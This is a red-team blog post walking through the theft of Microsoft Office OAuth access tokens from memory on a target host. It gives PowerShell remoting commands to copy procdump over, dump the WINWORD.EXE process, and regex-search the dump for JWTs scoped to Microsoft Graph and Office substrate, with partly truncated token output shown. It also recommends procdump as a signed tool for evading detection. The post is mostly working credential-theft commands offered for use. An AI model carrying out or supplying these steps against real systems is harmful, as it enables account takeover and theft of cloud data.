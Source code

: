 ```yaml
---
title: Stealing Microsoft Office tokens in memory
date: 2023-01-12 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Stealing Microsoft Office tokens in memory
#thumbnail: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
#image: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
---
```


Let us look into stealing Microsoft Office tokens present in memory on a host for a target pricipal. 

To simulate an MS Office login on the host using the a target user, a Macro command executing tool such as MacroRecorder was used to automate the log in process: https://www.macrorecorder.com/

```
& 'C:\Program Files (x86)\MacroRecorder\MacroRecorder.exe' -play=C:C:\Users\Administrator\Desktop\macro.mrf
```

Attempting to analyze and search for office tokens (`eyJ0eX`) using Process Hacker 2 after a valid login,  consistent results after a user simulation action are observed:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Stealing_office_tokens/Images/Pasted%20image%2020230925124733.png)

However when performing a minidump of the process and then looking for this string results were inconsistent, this is primarily because minidumps using say procdump do not include Private mapped regions. As an alternative we can perform a Full process memory dump or alternative dumps that can dump private mapped regions too.

To do so we can use a tool such as [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) as it is a trusted signed tool to evade detections.

After performing various procdump dumps with the working MacroRecorder simulation for the HTTPS interception part and looking for tokens with the string `eyJ0eX` the following results were observed:

**Perform a standard minidump (default)**: `-mm`
- Credentials: Rarely found
- Size: ~50mb

**Performing a full process dump**: `-ma `
- Credentials: Found always
- Size: ~650mb

**Performing miniplus dump**: `-mp` (preferred)
- Credentials: Found always, similar to full process dump 
- Size: ~95mb

Now, create a PSRemote session on the target as in objective and transfer procdump.

```
PS C:\> $session = New-PSSession -cn WIN-JH5F00D8313.nerd.corp

PS C:\> Copy-Item C:\Tools\procdump.exe -Destination C:\Users\public\ -ToSession $session -recurse
```

An example to perform a miniplus dump using procdump is as follows:

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> tasklist /v | findstr /i winword
WINWORD.EXE                   3396 RDP-Tcp#0                  2    196,988 K Running         EC2AMAZ-2LLTT7D\Administrator                           0:00:05 Document1  -  AutoRecovered  -  Compatibility Mode - Word

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> .\procdump.exe -mp 3396

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[07:05:01] Dump 1 initiated: C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_230925_070501.dmp
[07:05:02] Dump 1 complete: 97 MB written in 0.5 seconds
[07:05:02] Dump count reached.
```

We can then search for office tokens by looking for the string `eyJ0eX` using the `select-string` commandlet in PowerShell or Microsofts [strings64](https://learn.microsoft.com/en-us/sysinternals/downloads/strings) tool:

Using `select-string` in PowerShell (preferred) we look for a token with `graph.microsoft.com` and `outlook.office365.com`. In this case first for `graph.microsoft.com`

*Regex NOTE:
. is escaped as \. because . is a special character in regular expressions and we want to match a literal dot.
.\*? matches any characters (including spaces) in between "graph.microsoft.com" and "eyJ0eX" on the same line.*

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $graphtoken = Select-String -Path C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_231003_070025.dmp -Pattern "graph\.microsoft\.com.*?eyJ0eX"

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $graphtoken | out-file -append -encoding ascii graphtoken.out

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> gc graphtoken.out
[....snip...]
https://graph.microsoft.com//Users.Read":{"cachedl`�#4◄�15.0000ft Office Word2292ab01c","
credential_type":"AccessToken","environment":"login.windows.net","expires_on":"1695710790","extended_expires_on":"16956
24392","family_id":"","home_account_id":"52f19b5b-0567-4043-8ffe-48b00f43203d.e37fb390-11d6-47ac-9b5b-b853810a8411","ki
d":"","prt_protocol_version":"","realm":"e37fb390-11d6-47ac-9b5b-b853810a8411","redirect_uri":"urn:ietf:wg:oauth:2.0:oo
b","refresh_on":"0","requested_claims":"{\"access_token\":{\"xms_cc\":{\"values\":[\"CP1\"]}}}","secret":"eyJ0eXAiOi[...snip...]","session_key":"","session_key_rolling_date":"0","target":"email

[...snip...]
```

Copy and decode the token at `https://jwt.io/` as follows:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Stealing_office_tokens/Images/Pasted%20image%2020231003124256.png)

Similarly, here's an example for `substrate.office.com`:

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $substratetoken = Select-String -Path C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_231003_151238.dmp -Pattern "substrate\.office\.com.*?eyJ0eX"

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $substratetoken | out-file -append -encoding ascii substratetoken.out

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> gc substratetoken.out

https://substrate.office.com/User.Read https://substrate.office.com/UnifiedPolicy.User.Read
https://substrate.office.com/user_impersonation https://substrate.office.com/User-Internal.Read":{"cached_at":"16956244
01","client_id":"d3590ed6-52b3-4102-aeff-aad2292ab01c","credential_type":"AccessToken","environment":"login.windows.net
","expires_on":"1695724282","extended_expires_on":"1695624401","family_id":"","home_account_id":"52f19b5b-0567-4043-8ff
e-48b00f43203d.e37fb390-11d6-47ac-9b5b-b853810a8411","kid":"","prt_protocol_version":"","realm":"e37fb390-11d6-47ac-9b5
b-b853810a8411","redirect_uri":"urn:ietf:wg:oauth:2.0:oob","refresh_on":"0","requested_claims":"{\"access_token\":{\"xm
s_cc\":{\"values\":[\"CP1\"]}}}","secret":"eyJ0eXAiOiJKV1QiLCJub[...snip...]
QlmDfx5owE3HTj_rmkOxTXFjDNkbWm1zFouA","session_key":"","session_key_rolling_date":"0","target":"https://substrate.offic
e.com/Collab-Internal.Write https://substrate.office.com/Notes.ReadWrite
```

## References

https://mrd0x.com/stealing-tokens-from-office-applications/
